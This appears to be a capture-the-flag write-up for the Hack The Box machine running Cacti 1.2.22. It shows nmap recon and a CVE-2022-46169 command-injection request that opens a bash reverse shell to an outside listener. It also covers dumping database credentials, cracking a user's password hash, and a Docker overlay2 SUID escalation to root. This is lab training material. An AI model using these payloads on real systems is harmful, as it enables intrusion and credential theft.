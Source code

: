 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
## 🛰️ Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.211
nmap -p 22,80 -sCV 10.10.11.211
```

### Web Service
- Found Cacti login page on port 80.
- Version: **Cacti 1.2.22** (footer).
- Default creds don’t work.
- Possible CVE: **CVE-2022-46169** (unauth RCE via `poller_id` injection).

---

## 💥 Exploitation (Initial Shell)

### Auth Bypass + Command Injection (Manual)
```http
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=$(bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1')
Header: X-Forwarded-For: 127.0.0.1
```

### [Reverse Shell](HTTP.md)
```bash
nc -lvnp 443
```

Result: Shell as `www-data` inside **Docker container**.

---

## 🧠 Enumeration (Container)

- Hostname: 50bca5e748b0 → Docker container.
- Found MySQL creds in `/var/www/html/include/config.php`:
  ```text
  DB Host: db
  DB User: root
  DB Pass: root
  ```

### MySQL Access
```bash
mysql -h db -u root -proot cacti
```

### Users Table
```sql
SELECT username, password FROM user_auth;
```

- `marcus:$2y$10$vcrYth5YcCLlZaPD...`
- Cracked with `john` → Password: **funkymonkey**

---

## 📥 Shell as Marcus (Host)

```bash
sshpass -p 'funkymonkey' ssh marcus@10.10.11.211
```

---

## 🧨 Privilege Escalation (Root)

### CVEs Exploited:
- **CVE-2021-41091**
- **CVE-2021-41103**

### Docker Leak Exploitation
```bash
# From host:
ls /var/lib/docker/overlay2/<hash>/merged

# From container (as root):
cp /bin/bash /tmp/0xdf
chmod 4777 /tmp/0xdf
```

### Host Escalation
```bash
/var/lib/docker/overlay2/<hash>/merged/tmp/0xdf -p
```

→ Result: Root shell on host.

---

## 🏁 Flags

```bash
# User
cat /home/marcus/user.txt

# Root
cat /root/root.txt
```
